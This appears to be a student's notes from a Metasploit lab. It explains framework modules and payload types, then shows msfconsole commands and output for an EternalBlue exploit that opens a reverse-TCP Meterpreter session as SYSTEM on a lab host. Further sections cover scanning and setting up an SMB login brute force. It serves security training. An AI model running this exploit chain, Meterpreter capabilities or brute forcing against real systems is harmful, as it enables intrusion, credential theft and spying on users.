







# METASPLOIT 

## MAIN COMPONENTS OF METASPLOIT 

`msfconsole` to launch metasploit.  
The console will be your main interface to interact with the different modules of the Metasploit Framework. Modules are small components within the Metasploit framework that are built to perform a specific task, such as exploiting a vulnerability, scanning a target, or performing a brute-force attack.

Before diving into modules, it would be helpful to clarify a few recurring concepts: vulnerability, exploit, and payload.
- Exploit: A piece of code that uses a vulnerability present on the target system.
- Vulnerability: A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system.
- Payload: An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access to the target system, read confidential information, etc.), we need to use a payload. Payloads are the code that will run on the target system.

Modules and categories under each one are listed below. These are given for reference purposes, but you will interact with them through the Metasploit console (msfconsole).

**Auxiliary: Any supporting module, such as scanners, crawlers and fuzzers, can be found here.**  


**Encoders: Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.**

Signature-based antivirus and security solutions have a database of known threats. They detect threats by comparing suspicious files to this database and raise an alert if there is a match. Thus encoders can have a limited success rate as antivirus solutions can perform additional checks.



**Evasion: While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software.**
On the other hand, “evasion” modules will try that, with more or less success.



**Exploits: Exploits, neatly organized by target system.** 



**NOPs: NOPs (No OPeration) do nothing, literally.**
They are represented in the Intel x86 CPU family they are represented with 0x90, following which the CPU will do nothing for one cycle. They are often used as a buffer to achieve consistent payload sizes.


**Payloads: Payloads are codes that will run on the target system.**
Exploits will leverage a vulnerability on the target system, but to achieve the desired result, we will need a payload. Examples could be; getting a shell, loading a malware or backdoor to the target system, running a command, or launching calc.exe as a proof of concept to add to the penetration test report. Starting the calculator on the target system remotely by launching the calc.exe application is a benign way to show that we can run commands on the target system.
Running command on the target system is already an important step but having an interactive connection that allows you to type commands that will be executed on the target system is better. Such an interactive command line is called a "shell". Metasploit offers the ability to send different payloads that can open shells on the target system.



You will see three different directories under payloads: singles, stagers and stages.
- Singles: Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
- Stagers: Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
- Stages: Downloaded by the stager. This will allow you to use larger sized payloads.

Metasploit has a subtle way to help you identify single (also called “inline”) payloads and staged payloads.
- generic/shell_reverse_tcp
- windows/x64/shell/reverse_tcp
Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the “_” between “shell” and “reverse”. While the latter is a staged payload, as indicated by the “/” between “shell” and “reverse”.

**Post: Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.** 


If you wish to familiarize yourself further with these modules, you can find them under the modules folder of your Metasploit installation. For the AttackBox these are under `/opt/metasploit-framework-5101/modules`

### MSFCONSOLE 


**Search**  
One of the most useful commands in msfconsole is search. This command will search the Metasploit Framework database for modules relevant to the given search parameter. You can conduct searches using CVE numbers, exploit names (eternalblue, heartbleed, etc.), or target system
```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index, for example use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 >
```

You can direct the search function using keywords such as type and platform.
For example, if we wanted our search results to only include auxiliary modules, we could set the type to auxiliary. The screenshot below shows the output of the search type:auxiliary telnet command.

```
msf6 > search type:auxiliary telnet

Matching Modules
================

   #   Name                                                Disclosure Date  Rank    Check  Description
   -   ----                                                ---------------  ----    -----  -----------
   0   auxiliary/admin/http/dlink_dir_300_600_exec_noauth  2013-02-04       normal  No     D-Link DIR-600 / DIR-300 Unauthenticated Remote Command Execution
   1   auxiliary/admin/http/netgear_r6700_pass_reset       2020-06-15       normal  Yes    Netgear R6700v3 Unauthenticated LAN Admin Password Reset
   2   auxiliary/dos/cisco/ios_telnet_rocem                2017-03-17       normal  No     Cisco IOS Telnet Denial of Service
   3   auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof        2010-12-21       normal  No     Microsoft IIS FTP Server Encoded Response Overflow Trigger
   4   auxiliary/scanner/ssh/juniper_backdoor              2015-12-20       normal  No     Juniper SSH Backdoor Scanner
   5   auxiliary/scanner/telnet/brocade_enable_login                        normal  No     Brocade Enable Login Check Scanner
   6   auxiliary/scanner/telnet/lantronix_telnet_password                   normal  No     Lantronix Telnet Password Recovery
   7   auxiliary/scanner/telnet/lantronix_telnet_version                    normal  No     Lantronix Telnet Service Banner Detection
   8   auxiliary/scanner/telnet/satel_cmd_exec             2017-04-07       normal  No     Satel Iberia SenNet Data Logger and Electricity Meters Command Injection Vulnerability
   9   auxiliary/scanner/telnet/telnet_encrypt_overflow                     normal  No     Telnet Service Encryption Key ID Overflow Detection
   10  auxiliary/scanner/telnet/telnet_login                                normal  No     Telnet Login Check Scanner
   11  auxiliary/scanner/telnet/telnet_ruggedcom                            normal  No     RuggedCom Telnet Password Generator
   12  auxiliary/scanner/telnet/telnet_version                              normal  No     Telnet Service Banner Detection
   13  auxiliary/server/capture/telnet                                      normal  No     Authentication Capture: Telnet


Interact with a module by name or index, for example use 13 or use auxiliary/server/capture/telnet

msf6 >
```

Another essential piece of information returned is in the “rank” column. Exploits are rated based on their reliability. The table below provides their respective descriptions.


> RETURN TO THIS TASK. a lot has not been noted 
**REFERENCES**
- https://docs.metasploit.com/docs/using-metasploit/intermediate/exploit-ranking.html

**RECAP** 

you use:
- use path/to/module
  - info 
- search "keyword"
  - search cve:2019 "keyword"
  - help


### WORKING WITH MODULES 


- search
- use
- show options 
- set PARAMETER_NAME VALUE 
    example `SET RHOST 10.10.10.10`

- setg for glolbal value
    example `SET RHOST 10.10.10.10`

### PRACTICE 

```
> sudo nmap -sS -sV -O -T4 --min-rate 8888 -vv 10.10.89.41

PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 128 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   reset ttl 128
49152/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:63:44:08:43:B3 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

## Then I create a listner from netcat 

root@ip-10-10-108-66:~# nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)


```

Now using msfconsole with the eternalblue payload 
```
msfconsole
msf5 > use windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.89.41
rhosts => 10.10.89.41
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.89.41      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.108.66     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

## EXPLOITING TIME 
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit -z 

[*] Started reverse TCP handler on 10.10.108.66:4444 
[*] 10.10.89.41:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.89.41:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.89.41:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.89.41:445 - Connecting to target for exploitation.
[+] 10.10.89.41:445 - Connection established for exploitation.
[+] 10.10.89.41:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.89.41:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.89.41:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.89.41:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.89.41:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.89.41:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.89.41:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.89.41:445 - Sending all but last fragment of exploit packet
[*] 10.10.89.41:445 - Starting non-paged pool grooming
[+] 10.10.89.41:445 - Sending SMBv2 buffers
[+] 10.10.89.41:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.89.41:445 - Sending final SMBv2 buffers.
[*] 10.10.89.41:445 - Sending last fragment of exploit packet!
[*] 10.10.89.41:445 - Receiving response from exploit packet
[+] 10.10.89.41:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.89.41:445 - Sending egg to corrupted connection.
[*] 10.10.89.41:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.89.41
[*] Meterpreter session 1 opened (10.10.108.66:4444 -> 10.10.89.41:49190) at 2022-11-20 09:12:46 +0000
[+] 10.10.89.41:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.89.41:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.89.41:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 1 created in the background.


## Checking for sessions 

msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.108.66:4444 -> 10.10.89.41:49195 (10.10.89.41)

## METERPRETER 
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter >

meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    show_mount    List all mount points/logical drives
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of host names on the target
    route         View and modify the routing table


Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    clearev       Clear the event log
    drop_token    Relinquishes any active impersonation token.
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getprivs      Attempt to enable all privileges available to the current process
    getsid        Get the SID of the user that the server is running as
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system's local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    reboot        Reboots the remote computer
    reg           Modify and interact with the remote registry
    rev2self      Calls RevertToSelf() on the remote machine
    shell         Drop into a system command shell
    shutdown      Shuts down the remote computer
    steal_token   Attempts to steal an impersonation token from the target process
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: User interface Commands
===============================

    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components


Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes


```


## METASPLOIT: EXPLOITATION 

The topics we will cover are:
- How to scan target systems using Metasploit.
- How to use the Metasploit database feature.
- How to use Metasploit to conduct a vulnerability scan.
- How to use Metasploit to exploit vulnerable services on target systems.
- How msfvenom can be used to create payloads and obtain a Meterpreter session on the target system.

use this wordlist in this challenge `/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt`


### SCANNING 
SCAN FIRST
```
[*] exec: sudo nmap -sS -sV -T4 --min-rate 8888 10.10.214.253


Starting Nmap 7.60 ( https://nmap.org ) at 2022-11-21 12:40 GMT
Nmap scan report for ip-10-10-214-253.eu-west-1.compute.internal (10.10.214.253)
Host is up (0.00094s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5e
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: ACME IT SUPPORT)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: ACME IT SUPPORT)
8000/tcp open  http        WebFS httpd 1.21
MAC Address: 02:33:79:1D:B6:3D (Unknown)
Service Info: Host: IP-10-10-214-253; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.08 seconds

```

Now we open up `msfconsole` to test port scanning 
```
msf5 > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   3  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   4  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
   7  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner


Interact with a module by name or index, for example use 7 or use auxiliary/scanner/sap/sap_router_portscanner

msf5 > use 5
msf5 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf5 auxiliary(scanner/portscan/tcp) > setg RHOSTS 10.10.214.253
RHOSTS => 10.10.214.253
msf5 auxiliary(scanner/portscan/tcp) > run

[+] 10.10.214.253:        - 10.10.214.253:22 - TCP OPEN
[+] 10.10.214.253:        - 10.10.214.253:21 - TCP OPEN
[+] 10.10.214.253:        - 10.10.214.253:139 - TCP OPEN
[+] 10.10.214.253:        - 10.10.214.253:445 - TCP OPEN
[+] 10.10.214.253:        - 10.10.214.253:8000 - TCP OPEN
[*] 10.10.214.253:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Ofcourse nmap is still better than this, but we still want to explore what metasploit scanning can do

Next is Discovering `NETBIOS`
```
msf5 auxiliary(scanner/portscan/tcp) > search nbname

Matching Modules
================

   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/netbios/nbname                   normal  No     NetBIOS Information Discovery


msf5 auxiliary(scanner/portscan/tcp) > use 0
msf5 auxiliary(scanner/netbios/nbname) > show options

Module options (auxiliary/scanner/netbios/nbname):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.10.214.253    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      137              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf5 auxiliary(scanner/netbios/nbname) > run

[*] Sending NetBIOS requests to 10.10.214.253->10.10.214.253 (1 hosts)
[+] 10.10.214.253 [IP-10-10-214-25] OS:Unix Names:(ACME IT SUPPORT, IP-10-10-214-25) Addresses:(10.10.214.253) Mac:00:00:00:00:00:00 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
We have discover they are runnint ACME IT SUPPORT. 


Next Let's try the `http_version` module  
```
msf5 auxiliary(scanner/netbios/nbname) > search http_version

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/http_version                   normal  No     HTTP Version Detection


msf5 auxiliary(scanner/netbios/nbname) > use 0
msf5 auxiliary(scanner/http/http_version) > show options

Module options (auxiliary/scanner/http/http_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.214.253    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads (max one per host)
   VHOST                     no        HTTP server virtual host

msf5 auxiliary(scanner/http/http_version) > set RPORT 8000
RPORT => 8000
msf5 auxiliary(scanner/http/http_version) > run

[+] 10.10.214.253:8000 webfs/1.21 ( 403-Forbidden )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Now we have Discovered they are using `webfs/1.21`

Next we'll try to brute force `smb_login` using a wordlist
```
msf5 auxiliary(scanner/http/http_version) > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner


msf5 auxiliary(scanner/http/http_version) > use 0
msf5 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS             10.10.214.253    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
